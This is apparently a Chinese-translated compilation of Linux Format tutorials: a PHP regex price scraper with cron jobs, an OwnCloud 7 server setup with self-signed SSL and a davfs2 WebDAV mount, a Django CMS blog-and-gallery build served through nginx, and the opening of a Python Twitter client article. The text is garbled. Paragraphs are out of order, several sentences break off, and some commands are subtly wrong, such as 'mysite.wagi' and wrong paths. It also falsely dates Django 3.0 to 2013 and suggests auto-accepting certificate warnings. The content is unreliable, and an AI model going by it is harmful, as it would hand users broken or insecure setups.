接下来括号中的代码至关重要，因为它匹配前一个匹配项与下一个以 `<ul` 开头的模式开始之间的所有内容。此代码括号也很重要，因为 `preg_match_all()` 函数会为每次匹配创建一个数组；一个数组是整个匹配项，另一个是括号内的代码 `(.*?)`。`(.*?)` 括号之后匹配的其余部分包括 `<ul` 标签，后跟零个或任意数量的空白 `\s*`。

在空白之后，匹配特定的 HTML 类。基本上，HTML 代码 `class="rstlr dkGrey` 在搜索此模式时变为 `class="rstlr\s*dkGrey`。这就完成了模式。

现在，你会注意到在结束正斜杠之后，有三个字母 – `sim`。这些字母代表模式修饰符。`S` 用于搜索换行。`I` 用于忽略大小写。`M` 用于多行模式。由于将被检查的代码块涵盖了多个


在文件前添加 `php` 以从命令行运行它。

## 法律须知

尽管抓取是获取和比较数据的一种非常有价值的方式，但不应滥用它的力量。如果你的计划是个人用途——比如淘便宜货和稀有物品，并留给自己用——偶尔访问一下网页甚至不会引起任何注意。但是，如果你计划抓取许多大型网站上的航班优惠并在网上重新发布，尤其是持续这样做，你可能会像其他尝试过这类手段的人一样面临法律诉讼。

简而言之，在网络平台上重新发布抓取的内容，与使用个人网络服务器来查看商品何时低于某个价格，是完全不同的两回事。如果你看看许多针对爬虫的案例，此类诉讼的结果往往是版权侵犯和金钱损害赔偿。

近年来，亚马逊一直在打击一些使用爬虫工具从事其官方不认可用途的第三方服务商（Ecommercebytes，`http://bit.ly/bjmbJC`）。由于爬虫可以用来比较某个网站上的商品价格，以便在另一个网站上设定不同的价格，因此爬虫成为一个有争议的话题，这令人担忧。

这些代码行覆盖了每次提取匹配所需的基本要素。

上面的匹配结果只是给出了每个将要被抓取的条目。接下来的步骤是获取每个条目的名称和价格，并对其加以利用。为此，使用 `foreach` 循环遍历名为 `$posts` 的数组，以便将每个条目的准确数据完整地放在一起进行分析。

## 扩展爬虫

当遍历名为 `$posts` 的数组时，每个条目会依次通过循环，并被赋给变量 `$post`。然后，创建一个名为 `$regex` 的数组，因为它会查找每个条目的产品名称和价格。下一行代码创建一个名为 `$my_main_block` 的变量，它是 `$post` 数组中的第二个字符串。

由于最初的抓取会为每个条目创建一个数组，其中第一个字符串是整个匹配项，第二个字符串是仅由第一个名为 `$regex` 的变量中的 `(.*?)` 捕获的目标文本，因此我们直接将其作为所需的代码块使用。

接下来，创建两个空数组：一个名为 `$posts2`，另一个名为 `$posts3`。代码 `$posts2 = array();` 创建空数组，因为你需要这些数组对每个条目都保持为空，否则无法正常工作。现在，使用另一个循环对主条目检查其名称和价格。该循环运行两次：第一次运行时，我们使用以下代码匹配产品名称：

`preg_match_all($regex2,$my_main_block,$posts3, PREG_SET_ORDER);`

第二次运行时，我们使用以下代码匹配价格：

`preg_match_all($regex2,$my_main_block,$posts2, PREG_SET_ORDER);`

```
if(ISSET($posts2) && !empty($posts2) && ISSET($posts3) && !empty($posts3))
```

当条目同时具有名称和价格时，才会打印这些值。如果条目缺少名称或价格，则不会打印。以上述 `if` 代码开头的部分提供了所需数据的条件。现在你有了商品和价格，就可以做很多事情了。脑海中浮现的两种做法是：使用数据库进行价格比较，或者发送短信——想了解更多，请务必查看光盘上的 `scrape-amazon-multi-match-one-page.php` 文件。

现在你已有了检查产品和价格的代码，你可能会想继续在等式中加入第三个元素……产品 ID。当一个商品有一个始终用于引用该物品的固定 ID 时，名称和价格的变化就没那么重要了，因为该 ID 始终是主键。

使用前面的示例，你可以像添加名称和价格一样轻松地添加 ID。然后，你可以悄悄创建第二个数据库表，用来记录该商品自加入你的关注列表当天以来的价格变化。

例如，你可以创建一个数据库表，插入商品 ID、名称和价格。然后，每天运行一个 Cron 任务来检查优惠。一个简单的 MySQL 查询可以是：

```
SELECT NAME FROM original_table WHERE id IN
(SELECT id FROM bargains WHERE price <= '$my_price')
```

如果你有兴趣进一步推进这个项目，最后一个想法是：在捡到大便宜时给自己发送一封电子邮件或一条短信。如今，许多电话服务提供商允许你通过电子邮件向某人的手机发送短信。短信通常通过你的手机号后跟一个电子邮件地址来发送，例如 `yourphonenumber@vmbobile.ca`。可以使用 PHP 的 `mail()` 函数或 SMTP 来发送此消息。例如，PEAR 有一个非常好的用于通过 SMTP 发送电子邮件的类。

## 抓取与 Cron

既然已经讨论了抓取教程，你就有了一套基本工具，可以搜索和抓取互联网上几乎所有未加密的 HTML 代码。

除了能省下一些来之不易的宝贵金钱外，抓取技术还有许多其他巧妙用途，极具价值。例如，网站所有者可以像零售店用纸笔做的那样，定期与竞争对手进行价格比较，然后更新自己的电子商务价格，使价格始终比竞争对手便宜一点。另一个数据收集有益的场景是研究。如果有非常好的网站发布最新、更新过的信息，你可以找到这些信息，从而增长知识。

最后，你可以尝试运行每日 Cron 任务，浏览分类广告，寻找需要你技能的额外工作，甚至找到一份工作。

```
sudo vi /etc/crontab
```

例如，要在每天下午 5 点运行 Cron 任务，示例文本是：

```
0 17 * * * username /usr/bin/php -f /var/www/scrapers/filename.php
```

开头的数字和 `*` 字符设置时间。然后，输入相应的用户名，后面跟上服务器上 PHP 的位置路径。最后，`-f` 选项和文件名指定要解析并执行哪个文件。

手动操作很费时。既然可以通过自动化获得你想要的结果，为什么还要手动浏览呢？


## OwnCloud 7

拥有你的数据

常被指责头脑在云端，Linux Format 直冲平流层。OwnCloud 的最新版本也是如此。


Build Service 为流行发行版提供软件包。说明可在 `http://owncloud.org/install` 获取。例如在 Ubuntu 14.04 上，你需要创建文件 `/etc/apt/sources.list.d/owncloud.list`，其中包含行：`deb http://download.opensuse.org/repositories/isv:/ownCloud:/community/xUbuntu_14.04/ apt` 然后（可选）将 repo 密钥添加到 apt 以抑制关于外部软件包的警告信息：`wget http://download.opensuse.org/repositories/isv:/ownCloud:/community/xUbuntu_14.04/Release.key` `sudo apt-key add - < Release.key` 最后更新软件包数据库并安装一个闪亮的（或水汪汪的？）新版本的 OwnCloud `sudo apt-get update` `sudo apt-get install owncloud`

## 云提供商

作为负责任的云主机，你的职责之一是启用并强制执行 `https` 连接。为此你需要拥有一个签名的 SSL 证书，并告诉你的 Web 服务器有关它。 （参见第 79 页的 生成自签名证书 框）。OwnCloud 添加了自己的配置文件 `/etc/apache2/conf-available/owncloud.conf`。它包含一个别名，将服务器上的 `/owncloud` 映射到其默认安装目录 `/var/www/owncloud`。因此导航到 `https://yourserver.com/owncloud` （用你的服务器域名或 IP 地址替换 yourserver.com）。如果你使用自签名证书，那么你将收到关于证书为

我们已经强调了 OwnCloud 如何帮助你摆脱专有云存储（参见第 22 页），但我们将看看快速迭代的文件共享和文档协作工具最新最棒的版本 7 的变化。事实上，到你阅读本文时，版本 7.2 将会发布，并且随着问题的解决，出现的是一个相当了不起的产品。你需要自己的服务器来容纳你的云。这可能是本地或远程，实际或虚拟的，这并不重要。重要的是，在 said 服务器上，你运行着一个可从你想要共享的任何网络访问的 Web 服务器。如果这是互联网，那么通常的安全警告适用（参见第 16 页）。本教程假设 Apache 设置正常工作，但这里提出的相同思想也适用于 Nginx 或 Lighttpd。你的发行版仓库可能已经有最新版本的 OwnCloud，如果没有，漂亮的 OpenSUSE


文档协作证明是完全可用的，但我们并没有真正实现生产力。

## 生成自签名证书

如果你有自己的域名，那么你可以从 `www.startssl.com` 获得免费证书，或从其他任何注册机构获得付费证书。然而，你也可以自行生成并签署自己的证书，如下所示：

```
sudo openssl req -x509 -nodes -days 365 -newkey rsa:4096 -keyout /etc/apache2/ssl/owncloud.key -out /etc/apache2/ssl/owncloud.crt
```

你将被要求提供一些地址和公司详细信息，以及一个通用名称（如果你有域名，应将其设置为你的域名）和联系电子邮件地址。这将生成一个自签名（X.509）证书，有效期一年，并将

包含一个 2048 位 RSA（默认）密钥。我们需要告诉你的 Web 服务器使用这些凭据来处理 443 端口上的连接。标准的 Apache 安装带有文件 `/etc/sites-available/default-ssl.conf`，我们可以稍作修改以满足我们的目的。

`<VirtualHost _default_:443>` 标签适用于块中未在其他地方明确提及的任何 VirtualHost，因此如果你没有其他配置，就在这里添加证书信息是一个不错的地方。

你需要按如下方式更改 `SSLCertificateFile` 指令：`SSLCertificateFile /etc/apache2/ssl/owncloud.crt` 然后是密钥文件：

```
SSLCertificateKeyFile /etc/apache2/ssl/owncloud.key
```

你还应将 `ServerAdmin` 电子邮件地址和 `ServerName` 地址更改为你的域名或 IP 地址。现在启用 Apache SSL 模块和我们的新配置，要么使用 Debian 系列软件包提供的 `a2en(mod_site)` 助手，要么使用老式的：

```
ln -s /etc/apache2/mods-available/ssl.conf /etc/apache2/mods-enabled/
```

```
ln -s /etc/apache2/sites-available/default-ssl.conf /etc/apache2/sites-enabled/
```

重启 Apache 守护进程，你应该已为 SSL 做好准备。

不受信任。并且理所当然，但你知道是你制作了证书，并且你信任自己，所以你应该在此添加一个安全例外。即使访客无法验证服务器的身份（除非你以某种方式与他们共享证书的指纹），他们至少会知道连接是加密的。

你作为云 overlord 的第一项工作是设置管理员账户并选择 OwnCloud 数据库的格式。如果你设想一个小型云（例如卷云），那么 SQLite 就足够了，但如果你有多个用户都在合作/争夺极其重要的文档（和 TPS 报告），那么 SQLite 将在压力下弯曲，你将需要一个真正的 SQL 数据库。我们现在坚持使用 SQLite，但请注意，可以在以后将其转换为更成熟的数据库之一。选择一个合适的管理员账户名称，使用一个好的密码并点击完成设置。

砰！Owncloud 已准备就绪。你将被邀请下载桌面机器（是的，有 Linux 客户端）和移动设备的同步应用，并被指示连接你的日历和联系人。一切都来得及。首先我们真的应该禁用不安全的 http 连接。所以转到右上角的菜单并打开管理面板。向下滚动直到找到强制 HTTPS 复选框，你应该勾选它。现在注销并尝试通过 `http://` 访问你的 Owncloud。一切顺利的话，你应该被重定向到 `https://` 站点。安全无虞。

## 云是件美妙的事情

设置用户账户很简单：以管理员身份登录，从右上角菜单选择用户选项，为你和你的朋友提供用户名和密码，并适当共享它们。设置组和配额也从此页面完成，因此你可以阻止用户用他们的 Barry Manilow MP3 浪费存储空间。良好的做法是仅将管理员账户用于管理事务，因此使用你的个人账户来存储和共享你的文件、照片和 Michael Bolton 曲目。要上传文件，请从左上角菜单选择文件区域，然后单击上传按钮或直接将文件拖到浏览器窗口（类似于 Google Drive）。

在之前的版本中，这仅限于 OpenDocument 格式。文件格式的 voodoo 全部通过 Libre/OpenOffice 完成，因此你需要在刚设置的 Owncloud 服务器上或另一台设置为主文件过滤服务器的机器上安装其中之一。LibreOffice 还是相当大的，而且似乎在 GUI 或大多数功能永远不会使用的机器上安装它相当低效。在 Ubuntu 上，你可以使用

```
$ sudo apt-get install libreoffice --no-install-recommends
```

来减少一些冗余。这样安装的软件包仅重 116MB。是否值得为此空间投资来处理混淆且低效的文件格式，由你决定——开放格式在没有它也能正常工作，你也可以通过改编的 PDF.js 查看器在浏览器中查看 PDF。

旧式的僵硬共享文件夹已不复存在，因此项目可以从层次结构中的任何位置共享。此外，与你共享项目的人可以自由地将其在自己的文件夹结构中随意移动。用户可以对公共共享设置时间限制，管理员也可以强制执行这些限制，并强制使用密码。OwnCloud 一直支持外部存储源，无论是（S）FTP 服务器、Windows


初始设置屏幕发布了关于我们自签名证书的警告。高等级加密如果中间有人在的话真的没什么帮助。

快速提示 如果你很重要并且正在寻找企业级本地云存储解决方案，那么请查看 `https://owncloud.com` 上的商业产品。

## Can I share with you... there?


shares, OpenStack object storage 或第三方存储，如 Google Drive、Dropbox、Amazon S3。这里令人兴奋的新增功能是能够在 OwnCloud 安装之间共享——也就是所谓的服务器到服务器共享。设置起来很简单，你可以为用户启用特定的 OwnCloud 共享，或者如果你信任他们，可以授予他们连接 OwnCloud 资源自由。显然，他们访问每个资源都需要自己的登录凭据。

服务器到服务器共享消除了从一个云下载文件到桌面再上传到另一个云这种 otherwise 尴尬流程的麻烦。更不用说拥有三个不同版本的同一文件在各处飞来飞去所带来的所有同步问题了。但 OwnCloud 承诺在未来版本中会有更多功能，其愿景是所谓的“数据联合”，在其中你可以在云之间无缝共享文件，而无需显式访问它们。这更进一步抽象掉了服务器之间的边界。

Web 界面也得到了一些润色，现在对移动设备更加友好，尽管移动用户可能更愿意使用专用应用。文档是懒加载的，因此文档或庞大的照片库会在你操作不断缩小的滚动条时分块读取。虽然这使事情看起来初始更快，但在某些情况下会有些别扭。

最值得注意的是 Pictures 应用，目前没有按日期排序的选项，因此如果你只想在一个大型文件夹中查看最新的照片，那么请准备好进行长时间的滚动和等待时间。关于此问题已提交了错误报告，并且改进的懒加载计划在 7.0.3 中推出。

存在适用于 Android 或（颤抖）iDevices 的应用，因此你可以在外出时或懒得走到电脑前时获取数据。目前它们在官方商店的价格为 63p 和 69p，但 Android 版是开源的，如果你手头拮据，可以从其他来源（如 F-Droid）免费获取。不幸的是，这些应用并没有像其 Dropbox 和 Google Drive 同行那样性感。特别是上传多个文件必须一个一个进行，而且没有上传整个文件夹的选项。这对某些人来说可能是致命缺陷，但不必如此：OwnCloud 可以通过 WebDAV 协议共享其文件，并且有各种各样的应用可以在你的标签页和移动设备上同步共享。

如果你太酷而不想设置传统安装方法，那么在 `https://registry.hub.docker.com` 上有几个现成的可供使用


## Appy appy fun bus

OwnCloud 附带了许多可选应用程序，包括日历和联系人列表，以及前面提到的文档和图片应用。随着 OwnCloud 社区的成长，出现了许多令人兴奋的第三方应用程序。事实上，你可以在 `http://apps.owncloud.com` 上浏览一大堆它们。

例如，你可以下载一个名为 Music 的应用，它会为你索引音乐目录，然后通过精美的 HTML5 界面让你播放。它还可以与 Ampache 媒体服务器协同工作，以便你的文件可以通过任何兼容客户端播放。在 LXP 办公室里最受欢迎的、毫无疑问的是 Chat 应用程序，通过它各种各样无法在法律上重现的对话被传输，全部以测试的名义进行。


官方桌面客户端是一个简单但功能齐全的 Qt4 应用程序，它安静地驻留在系统托盘中，并在同步时以与 Dropbox 等效的方式通知你。默认情况下，它会将整个 OwnCloud 账户同步到本地目录 `~/owncloud`，但你可以根据自己的云偏好挑选文件夹。

## Syncing on my mind

你也可以设置带宽限制。桌面客户端在你使用 Gnome 时看起来有点别扭，因为其系统托盘会消失，不过理论上，一旦你完成配置，就不再需要与之交互了。显然，如果你想同步到远程机器，桌面客户端就没什么用了：在这种情况下，你需要使用前面提到的 WebDAV。

`davfs2` 程序通过 `FUSE` 内核模块工作，使你能够像本地文件系统一样查看 WebDAV 共享。在基于 Debian 的发行版上安装该包只是一个简单的操作：

```
$ sudo apt-get install davfs2
```

并且该包肯定存在于其他发行版的仓库中。你可以可选地在可执行文件上设置 SUID 位，以便非 root 用户可以挂载 WebDAV 共享。Debian 和 Ubuntu 可以通过以下方式为你完成此操作：

```
$ sudo dpkg-reconfigure davfs2
```

如果你接受警告（实际上相当安全，因为程序会放弃其 root 权限），那么 `webdav` 组中的任何人都可以挂载 WebDAV 共享，因此像这样将你的用户添加到该组：

```
$ sudo gpasswd -a username webdav
```

现在创建一个文件夹 `~/owncloud-dav` 作为我们的挂载点。我们还需要指定 OwnCloud 登录凭据，它们存储在文件 `~/davfs2/secrets` 中。此文件可能已在之前的重新配置期间为你创建，但如果没有，你也可以轻松手动创建。由于此文件将包含敏感数据，因此锁定权限非常重要：

```
$ chmod 600 ~/davfs2/secrets
```

向你的 `secrets` 文件添加如下一行

```
https://yourserver.com/owncloud/remote.php/webdav
username password
```

根据需要替换 URL、用户名和密码。你还需要在 `/etc/fstab` 中添加以下内容（这需要 root 权限，因此 `sudo nano /etc/fstab`）：

```
https://yourserver.com/owncloud/remote.php/webdav /home/username davfs user,rw,noauto 0 0
```

同样，你需要将用户名替换为你自己的。如果你想允许多个用户访问，则需要为每个用户添加一行。如果一切顺利，用户将能够通过简单的命令挂载他们的 OwnCloud 文件夹：

```
$ mount ~/owncloud-dav
```

如果你使用的是自签名证书，那么你会收到关于可能的中间人攻击的警告，但我们已经讨论过这个问题了。用户可能希望自动挂载他们的 OwnCloud 资源，这通常只需将上述挂载命令添加到 `~/.bashrc` 中即可。然而，警告信息会变得烦人，因此你可以通过使用以下棘手的命令来静默它并管道传输同意：

```
echo 'y' | mount ~/owncloud-dav > /dev/null 2>&1
```

也可以在 Gnome 中使用 Nautilus 或 KDE 中使用 Dolphin 在无需任何额外软件的情况下挂载 WebDAV 共享。你需要在 Nautilus 中使用 `davs://` URI 前缀，或在 Dolphin 中使用 `webdav://`。

在过去一年中，约有 300 名开发者为 OwnCloud 贡献了新代码，使其成为今天最活跃的开源项目之一，也是开源能够取得成就的光辉典范。

柏林年度 OwnCloud 大会的反馈表明它取得了巨大的成功，而最近在英国的黑客马拉松将结出丰硕成果并修复许多错误。在一个大玩家及其庞大数据孤岛渴望你的数据，并且非常乐意在隐私等琐碎问题上移动球门柱的世界里，也许现在是时候让数据属于你自己的了。


Pictures 应用会尽可能合理地平铺你的照片，但缺乏按日期排序的选项。

Quick tip 如果你的 OwnCloud 服务器更改了 IP 地址或域名，那么你需要在文件 `/var/www/owncloud/config/config.php` 中的 `trusted_domains` 数组进行更新。

# Django：构建自定义 CMS

你讨厌 WordPress，Drupal 也讨厌你，所有人都讨厌 PHP。你能怎么办？我们有一个建议，可以帮助缓解你的 CMS 之痛。

内容管理系统（CMS）生态系统由 WordPress 和 Drupal 主导。这两者都是相当庞大的 PHP/SQL 项目。WordPress 曾经是一个简单的博客平台，但后来已长成一个盘根错节的丛林，其中既有 PHP4 黄金时代的遗留物，也有现代面向对象的代码。再加上各种主题和插件，几乎可以做任何你想象得到的事情。没有底层框架来构建这些扩展，因此它们大多采用临时拼凑的方式，常常通过重写 WordPress 核心函数来达到目的。有人推测，这一切之所以还能保持凝聚力的唯一解释是，WordPress 总部严格执行了强大的巫毒仪式——甚至可能涉及活人献祭。

相比之下，Drupal 的座右铭是“不要乱动核心”，因此它天生就是为可扩展性而设计的。它拥有定义良好的模式，各种定制都可以明确地作为模块实现。这使它极具开发者吸引力，因此你会在 Drupal 生态中找到大量社区贡献的模块。不过，对于非开发者来说，构建任何超越最基本水平的 Drupal 站点都可能令人望而却步、耗时且有时令人沮丧。

## 理解框架


为了将设计、内容和后端代码分离开来，人类发明了 Web 框架。这些框架帮助非硬核程序员使用模块化应用和易于扩展的模板，无需费数小时与 PHP 和 CSS 搏斗就能实现看似简单的目标。`Django` 就是这样一个备受推崇的框架。`Django` 遵循模型-视图-控制器（MVC）设计，要求应用在分离输入（通过控制器）和输出（通过视图）的表示方面表现得体。模型负责处理所有“中间部分”：与从控制器收到的任何指令相关的数据和逻辑，以及将这些指令处理成输出给查看者的过程。在本文中，我们将使用 `Django` 搭建一个基于 CMS 的基本网站。可供选择的 CMS 包有很多（见 `www.djangopackages.com/grids/g/cms`），但让我们仔细看看其中最有名的一个：名为 `Django CMS`，这个名称确实颇具想象力。

建议通过 `Virtualenv` 在隔离环境中运行 `Django CMS`，因为这样可确保其 Python 依赖不会与系统上的其他任何东西冲突。要进行此设置，首先从你的发行版软件源安装 `Pip`。然后（以 root 身份）安装 `virtualenv` 包：

```
# pip install virtualenv
```

现在（不要以 root 身份）在你的主目录中设置一个虚拟环境，激活它，并按如下方式安装 `Django CMS`：

```
$ virtualenv ~/env
```

```
$ source env/bin/activate
```

```
(env) $ pip install djangocms-installer
```

如果你退出了虚拟环境（无论是通过 `deactivate` 优雅退出，还是其他方式），只需 `source /env/bin/activate` 即可轻松重新进入。无需再次初始化。`Django CMS` 的设置简单得令人难以置信，它会将项目存储在自己的子目录中，我们可以将这些子目录都放在一个父目录 `~/djangoprojects` 下，以保持整洁：

```
(env) $ djangocms -p ~/djangomy_demo
```

它会问你很多关于版本、国际化、修订支持等问题（你可以放心接受默认值，因为这只是一个演示，但对“Load a starting page”请回答“是”）。所需的数据表会自动创建，最终你会被要求设置一个管理员用户。所有这些完成后，你可以像这样启动你的 CMS：

```
(env) $ cd django
```

```
(env) $ python manage.py runserver
```

现在，如果你将 Web 浏览器指向 `http://localhost:8000`，你应该会看到演示网站。此外，如果你将 URL 改为 `http://localhost:8000/edit`，就可以作为指定的管理员用户登录，并通过可视化界面开始定制你的网站。你可以通过顶部的“Structure”视图，然后点击右侧的线条，向“Feature”和“Content”框中添加新元素。Google Maps 插件相当不错。

## 创建一个博客

`Django 3.0` 于 2013 年 4 月发布。它的一个主要新特性是强大的前端系统，它使你能够直接从管理视图操作页面上的所有元素和插件，而无需做任何代码修补。这使基本的站点改造和构建工作变得轻而易举，但请记住，这个前端仍处于起步阶段，因此偶尔会令人困惑。

例如，你可能需要放大左侧面板以显示所有页面操作。对于我们将要创建的博客，你可能会看到一些类似这样的虚假错误：“菜单“menu”无法加载..”。这些错误只需简单刷新便会消失。也许等你读到这篇文章时，它们已经被修复了。在左侧面板中时，值得进入站点选项，将 `example.com` 改为 `localhost:8000`，因为有些页面会将你引向绝对 URL。

## 快速提示

另一个崭露头角的基于 `Django` 的 CMS 是备受赞誉的 `Mezzanine`。请为它投入一些时间和关注：`http://mezzanine.jupo.org`。

`Django` 项目有两个重要的文件，你将在本教程中处理：`settings.py` 和 `urls.py`。前者详细说明了各种低级配置，例如项目路径、所需的额外应用以及将使用哪个数据库引擎。当你向其中添加项目时，你需要重建项目数据库才能使其生效。这些额外应用通常有自己的数据库需要迁移。幸运的是，`South` 工具为我们处理了这个问题。文件 `urls.py` 包含一个正则表达式列表，告诉 `Django` 对某些 URL 模式做什么。例如，我们告诉 `Django` 对服务器 URL 后带有 `/weblog/` 的 URL 调用我们为本教程制作的 `Zinnia` 博客。`Django CMS` 允许（几乎）无缝地将 `Django` 应用集成到你的网站中。为了证明这一点，让我们把流行的 `Zinnia` 博客应用启动起来。 使用 `Ctrl+C` 中断你的 Web 服务器，然后安装 `Zinnia` Python 模块以及 `apphook`，以便 CMS 和博客可以对话：

```
(env) $ pip install django-blog-zinnia cmsplugin_zinnia
```

这需要一些额外的 `Django` 组件，因此你需要在 `~/django/my_demo/settings.py` 中的 `INSTALLED_APPS` 部分添加以下内容：

```
'zinnia',
'cmsplugin_zinnia',
'tagging',
'django.contrib.comments'
```

在 `settings.py` 中，同时添加这一行以防止 `Zinnia` 在有人在你的博客上发表评论时尝试向你发送电子邮件：

```
ZINNIA_MAIL_COMMENT_AUTHORS=False
```

接下来，我们在 `~/django/my_demo/urls.py` 中的 `urlpatterns` 定义开头添加以下内容：

```
url(r'^weblog/', include('zinnia.urls')),
url(r'^comments/', include('django.contrib.comments.urls')),
```

完成后，使用以下命令将所有新应用注册到 `Django` 数据库中：

```
(env) $ ./manage.py syncdb
(env) $ ./manage.py migrate
```

然后你应该能在 `http://localhost:8000/weblog` 看到一个原生的 `Zinnia` 博客。`cmsplugin-zinnia` `apphook` 的作用是使博客内容能够在我们网站的其他地方显示。查看逐步指南，了解这是如何实现的。

现在你已经有了发表言论的地方，为什么不添加一个图库来展示你的蚀刻画和照片呢？`Imagestore` 应用很适合这些用途。用简单的命令安装它：

```
(env) $ pip install imagestore
```

同时将以下内容添加到 `~/django/my_demo/settings.py` 的 `INSTALLED_APPS` 部分：

```
...
'imagestore',
'sorl.thumbnail',
'imagestore.imagestore_cms',
...
```

将它的 `urls` 添加到 `~/django/my_demo/urls.py`：

```
url(r'^gallery/', include('imagestore.urls', namespace='imagestore')),
```

然后运行：

```
(env) $ ./manage.py syncdb --migrate
```

这将更新数据库。你可能会收到 `South` 数据库迁移工具的错误，因为它试图导入权限设置，但如果再次运行命令


应该就能正确工作。现在添加一个新页面并将其命名为 `Gallery`。这将自动连接到 `Imagestore`，因此当你点击它时，你会看到你的图库。或者如果你有的话。我们可以从左侧的管理员面板添加图库，其中在 `Home` 选项卡内现在有一个 `Imagestore` 部分。添加了一些图库后，你可以使用结构视图中新可见的 `Album` 和 `Album as Carousel` 元素，将它们单独整合到页面中。

## Gentlemen, start your nginx

所以现在你有了——一个非常简单的 CMS，配有博客和图库。将其上线很大程度上取决于你的 Web 服务器设置，但我们将简要介绍一个非常基本的流行 `Nginx` Web 服务器的设置，我们假设你已安装它。我们将使用 `uWSGI` 包在 `Django` 和 `Nginx` 之间提供接口，并且为了测试目的，我们将继续在虚拟环境中工作。我们需要收集所有静态文件，以便 Web 服务器可以找到它们：

```
(env) $ cd ~/django
(env) $ ./manage.py collectstatic
```

现在安装 `uWSGI` 包并启动它以测试其与 `Django` 对话的能力：

```
(env) $ pip install uwsgi
(env) $ uwsgi --http :8000 --module mysite.wsgi
```


### Quick tip

在官方 uWSGI 网站上找到关于 uWSGI 和 Nginx 的更详尽指南：http://bit.ly/uWSGNginx。


在你的网站中嵌入 YouTube 视频易如反掌。让 Nvidia 的好人们提供显卡规格，就没那么容易了。


Zinnia 应用本身就相当令人印象深刻。

我们还需要告诉 uWSGI Nginx 的配置方式，因此需要将它捆绑的参数复制到你的项目目录中：

```
(env) $ cp /etc/nginx/uwsgi_params ~/django/my_demo
```

要为你的演示站点配置 Nginx，现在需要创建一个文件 `/etc/nginx/sites-available/mysite_nginx.conf`，其内容如下，并在适当的地方将 `user` 替换为你的用户名：

```
upstream django {
  server 127.0.0.1:8001;
}
# configuration of the server
server {
  listen 8000;
  server_name 127.0.0.1; # substitute your machine's IP address or FQDN
  charset utf-8;
  client_max_body_size 75M;
  location /media {
    alias /home/user/django/my_demo/media;
  }
  location /static {
    alias /home/user/django/my_demo/static;
  }
  location / {
    uwsgi_pass django;
    include uwsgi_params;
  }
}
```

将此文件链接到 `/etc/nginx/sites-enabled`，确保该文件夹包含在你的 `nginx.conf` 中，然后启动 Nginx。完成之后，在目录 `~/django` 中运行以下命令启动 uWSGI：

```
(env) $ uwsgi --socket 8001 --module mysite.wagi
```

希望你会发现所有组件都能相互通信，并且你的 Django 站点现在可以通过 http://localhost:8000 访问——这次它是由一个成熟的 Web 服务器提供服务，该服务器通过运行在 8001 端口的网关访问它，而网关则直接与 Python 应用通信。使用 Unix socket 而不是 TCP 作为网关是更好的做法，因为它开销更小、速度更快，因此将 `/etc/nginx/sites_available/mysite_nginx.conf` 中 `upstream{}` 块中的 `server` 行替换为：

```
server unix:///home/user/django/mysite.sock;
```

使用以下命令启动 uWSGI：

```
(env) $ uwsgi --socket mysite.sock --module mysite.wagi --chmod-socket=666
```

一切应该如前一样出现，但这次你应该能感受到那种因运行更高效而产生的温暖愉悦感。由于 Nginx 默认不允许与用户 socket 通信，因此有必要强制使用这种较为宽松的权限。在更正式的设置中，uWSGI 将在系统范围内运行，并由一个适当受限的系统账户运行，可能与 Nginx 守护进程的所有者属于同一组。

好了，孩子们，今天的课程就到此结束。我祝愿你在构建干净、模块化且可扩展的网站的冒险中一切顺利。


哦，主啊，你不会买给我……本网站使用 Django CMS 构建。

## 使用 Django 和 Zinnia 创建博客


### 1 启动 Zinnia

重启 Web 服务器后，你应该会在顶部栏看到 Zinnia 菜单。在这里点击 New entry 会笨拙地在左侧面板中放置一个富文本输入表单。在此你可以创建你的第一篇 Zinnia 博客文章，如果你愿意的话。我们可以做得更好，特别是我们可以将博客应用集成到我们选择的布局中。

### 2 创建一个页面

让我们为博客创建一个新页面，选择 Page > Add Page > New Page。将其命名为 `blog`，或更具创意的名字。Slug 是页面在 URL 中引用的方式，并会根据标题自动完成。这意味着你的博客可以被网络蜘蛛和机器人轻松高效地索引。点击保存以创建页面。


### 3 创建布局

选择顶部的结构视图，然后点击内容栏右侧的菜单。添加一个包含两列的多列环境。最初两列大小相同，这是不理想的。但点击保存后展开多列环境并按需配置列。我选择左侧 50%，右侧 25%。

### 4 定义条目列表

接下来前往右侧列，从右侧菜单添加一个 Latest Entries 插件。编辑插件设置，使其仅显示最新条目，并使用 `entry-detailed` 模板。在此之下，你需要再添加一个 latest entries 元素，偏移量为 1，并使用默认的 `entry-list` 样式。这将仅显示你之前所有条目的标题。


### 5 添加额外功能

与此同时，在右侧列中添加一个 Tag Cloud、Calendar Entries 和管理控件。这足以让我们获得一个干净但功能齐全的 Zinnia 应用视图，并且完全集成在 Django CMS 中。管理工具将使你能够登录、发布新条目、审核评论以及执行任何你认为合适的其他博客相关操作。

### 6 开始写博客

它很好地展示了内容，在本例中是 ITER Tokamak 融合反应堆的乐高模型。随着你开发网站，你将能够按心意自定义并添加新的小部件和功能。当然，真正的乐趣始于你开始编写自己的模板，但即便不写一行代码也能取得如此多的成果，仍然令人印象深刻。

## Python：制作一个 Twitter 客户端

我们将向你展示如何像大佬一样使用 Twitter。一个接受参数并捕获错误的命令行大佬。

虽然先前的研究表明，大量的 Twitter 内容可以归类为“废话”、“无意义的胡言乱语”和“自我宣传”，而且更多的内容只是纯粹的垃圾邮件；但不可否认的是，在所有这些糟粕中，确实存在一些高度信息丰富且及时的精华。或者如果你愿意，也可以称之为“信息”。

Twitter 使开发者能够访问其全面的 REST API，以便他们可以使用自定义应用程序以合理的方式与各种推文资源进行交互。虽然你可以直接在 Python 中使用 API，但你必须编写大量混乱的代码来正确解析你的查询或解包冗长的 JSON 响应。值得庆幸的是，所有这些都已在 `python-twitter` 模块中为你完成，该模块可从所有优秀的发行版中获得，或通过 `pip install` 获取最新版本。

> “Twitter enables developers access to its comprehensive REST API.”

除了发推之外，我们还将看到如何使用 `argparse` 模块处理命令行选项，以及如何进行一些简单的错误捕获。

为了使用 REST API，你必须注册为 Twitter 开发者，因此请前往 http://dev.twitter.com 并使用你的常规 Twitter 凭据声明自己。然后创建一个新应用程序，用你喜欢的任何内容填充名称、描述和网站字段。保持回调 URL 字段为空并单击创建按钮。如果你的应用程序名称包含“twitter”，你会被大声斥责，所以不要那样做。现在转到你的应用程序的权限部分并将其访问权限更改为读取和写入。毕竟你想要能够发布内容。

现在转到 API 密钥部分并创建一个 OAuth 令牌。现在从 http://www.linuxformat.com/files/hackman2015.zip 获取源代码的副本，解压缩它并用 API 密钥、API 密钥和访问令牌密钥分别填充 `config.py`。现在舞台已经就绪，让我们快速搜索一下人们对 Linux Format 的评价：


`python twitter_api.py --search="linux format"`.

